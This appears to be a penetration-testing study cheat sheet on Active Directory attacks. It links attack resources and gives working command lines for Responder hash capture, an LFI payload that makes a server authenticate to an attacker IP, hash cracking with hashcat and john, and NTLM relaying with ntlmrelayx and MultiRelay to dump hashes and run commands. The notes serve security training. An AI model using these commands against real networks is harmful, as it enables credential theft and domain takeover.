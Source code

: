 # Active Directory  
AD Overview and tools.   
## Contents 
- [Active Directory](#active-directory)
  * [Contents](#contents)
  * [Active Directory Overview](#active-directory-overview)
  * [My AD Cheatsheets](#my-ad-cheatsheets)
  * [Other Cheat Sheets](#other-cheat-sheets)
  * [References](#references)
    + [Important Files to Check on the DC](#important-files-to-check-on-the-dc)
  * [Tools](#tools)
  * [General Tools](#general-tools)
  * [Responder](#responder)   
  
## Active Directory Overview 
To gain control over a domain:  
Compromise member of Domain Admin group.   
Compromise domain controller -> can modify all domain-joined computers or execute applications on them. 

AD: depends on DNS server, typical DC hosts DNS server that is authoritative for a given domain.    
Account types: domain admins, service accounts (can be domain admins), local admins (can't access the DC), domain users.     
Authentication mechanisms: Kerberos (uses ticket granting tickets and services to authenticate users) or NTLM (traditional Windows authentication).     
Kerberos: default authentication service that uses ticket-granting tickets and service tickets to authenticate users and give users access to other resources across the domain. Intended to be more secure than NTLM (uses 3rd party ticket authorization and stronger encryption).      
[PayloadAllTheThings - Most Common Paths to AD Compromise](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#most-common-paths-to-ad-compromise)       
Typical AD pen test:
- Exploit host on domain and gain access  as a domain user 
- Enumerate domain users and groups.  
- Privilege escalate or move laterally. 
- Get Domain Admin or Service Account access and onto the domain controller.     

Common Ways to Get AD Creds:    
- NTLM Authenticated Services  
- LDAP Bind Credentials    
- Authentication Relays      
- Microsoft Deployment Toolkit   
- Configuration Files       

## My AD Cheatsheets
[Attacks](https://github.com/lw8192/Red-Team-Rising/blob/main/ActiveDirectory/Attacks.md)        
[Lateral Movement](https://github.com/lw8192/Red-Team-Rising/blob/main/ActiveDirectory/LateralMovement.md)   

 
## Other Cheat Sheets
[AD Cheat Sheet](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet)     
[AD Lateral Movement and Persistence Cheatsheet](https://bhanusnotes.blogspot.com/2020/12/ad-pentest-lateral-movement-persistance.html)  
[AD Cheat sheet](https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference/)   
[Pentesting AD CheatSheet](https://i.ibb.co/TKYNCNP/Pentest-ad.png)  
[Integratio IT Cheat Sheet](https://github.com/Integration-IT/Active-Directory-Exploitation-Cheat-Sheet)  

## References      
[WADComs](https://wadcoms.github.io/)    
    
### Important Files to Check on the DC
    %SYSTEMROOT%\System32\ntds.dit             #AD database with user password hashes   
    %SYSTEMROOT%\NTDS\ntds.dit                 #AD backup

## Tools   
C2 Frameworks:
[PowerShell Empire](https://github.com/BC-SECURITY/Empire), Covenant    
[evil-winrm](https://github.com/nubix/evil-winrm): access Windows RM, TCP port 5985 or 5986 open.   
Responder (Spoofing is not allowed in the labs or on the exam)   
Crackmapexec  
[BloodHound](https://github.com/BloodHoundAD/BloodHound), [SharpHound](https://github.com/BloodHoundAD/SharpHound) 
Rubeus   
[Powerview](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1 )   
[Mimikatz](https://github.com/gentilkiwi/mimikatz), [Mimikatz Cheatsheet](https://offsec.red/mimikatz-cheat-sheet/)      

## General Tools 
[Impacket](https://github.com/SecureAuthCorp/impacket): collection on Python classes for working with network protocols.       

    #if not properly installed 
    apt install impacket-scripts  
    /usr/share/doc/python3-impacket/examples  
    
[ADSC-Pwn](https://github.com/bats3c/ADCSPwn)   

## Responder 
Not allowed on the OSCP exam, but a common pen testing tool.                
Allows you to spoof various services then capture hashes from devices that try to authenticate to those.  
Common use: poison responses during NetNTLM authentication to capture credentials. Might be able to relay the challenge instead of just capturing it (if SMB signing is not enforced). Ref: https://0xdf.gitlab.io/2019/01/13/getting-net-ntlm-hases-from-windows.html       
  
Install:   

    git clone https://github.com/lgandx/Responder   
 Recon: RunFinger.py to identify hosts, OS and SMB info. Check if SMB signing is not enabled               
 
    /opt/Responder/tools $ python3 RunFinger.py -i 172.16.1.1/24       
 Responder Usage:   
 Config file: edit responder.conf to disable SMB / HTTP servers, change RespondTo arguement to target a specific host     

     sudo responder.py -I eth0   #start on specified interface. Hashes will be captured when a device tries to authenticate to resources on the network.               
     sudo responder.py -I eth0 -A    #analyze / listen mode, no active poisoning    
    
You might be able to use a LFI vulnerability to request a resource and capture a hash using Responder. Ex - http://site.com/?page=//10.10.14.25/somefile           
Captured hashes will be stored in the logs folder, in a .txt file named for the protocol hash type and IP captured from.      

    username::domain:ServerChallenge:NTproofstring:modifiedntlmv2response   #NTLMv2 Responder capture format       
Crack Hashes from responder:     

    john hashes.txt   #John the Ripper will automatically detect the format of hashes collected by Responder.    
    hashcat -m 5500   #NTLMv1 (hashes captured from using a tool like Responder)     
    hashcat -m 5600   #NTLMv2 (hashes captured from using a tool like Responder)   

Use NTLMRelay or MultiRelay to relay the credentials to any SMB server which has SMB signing disabled (can't relay the creds back to the source computer unless you are relaying them to a different service). Windows workstations have SMB signing disabled by default.          
[byt3bl33d3r Guide to NTLM Relaying](https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html)    
[NTLMRelay - Impacket Script](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py)

    sudo python3 ntlmrelayx.py -tf targets -smb2support     
[MultiRelay - Built into the Responder Toolkit](https://github.com/lgandx/Responder/blob/master/tools/MultiRelay.py)      

    /opt/Responder/tools $ python3 MultiRelay.py -t 172.16.1.5 -u ALL -d    #Relay auth requests for all users, dump local account hashes   
    /opt/Responder/tools $ python3 MultiRelay.py -t 10.10.10.10 -c "whoami"   #exec a command    
